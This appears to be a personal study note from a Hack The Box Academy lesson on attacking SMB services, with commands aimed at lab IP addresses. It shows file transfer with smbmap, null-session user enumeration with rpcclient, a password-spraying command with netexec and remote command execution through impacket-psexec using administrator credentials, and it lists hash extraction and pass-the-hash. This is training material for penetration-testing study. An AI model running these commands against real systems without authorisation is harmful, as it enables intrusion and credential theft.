 ![[Pasted image 20240924114423.png]]
- Download
```shell-session
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

- Upload
```shell-session
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

## <mark class="hltr-cyan">Remote Procedure call (RPC)</mark>

```shell-session
dalichabani7academy@htb[/htb]$ rpcclient -U'%' 10.10.110.17

rpcclient $> enumdomusers
```

```shell-session
./enum4linux-ng.py 10.10.11.45 -A -C
```

## <mark class="hltr-cyan">Protocol Specifics Attacks</mark>

### <mark class="hltr-orange">Brute Forcing</mark>

if we are targetting a non-domain joined computer, we will need to use the option `--local-auth`.

```shell-session
nxc smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

### <mark class="hltr-orange">Administrator Access Attacks</mark>

When attacking a Windows SMB Server, our actions will be limited by the privileges we had on the user we manage to compromise. If this user is an Administrator or has specific privileges, we will be able to perform operations such as:

- Remote Command Execution
- Extract Hashes from SAM Database
- Enumerating Logged-on Users
- Pass-the-Hash (PTH)

#### <mark class="hltr-grey">Remote Code Execution</mark>

To connect to a remote machine with a local administrator account, using `impacket-psexec`, you can use the following command:
```shell-session
impacket-psexec administrator:'Password123!'@10.10.110.17
```
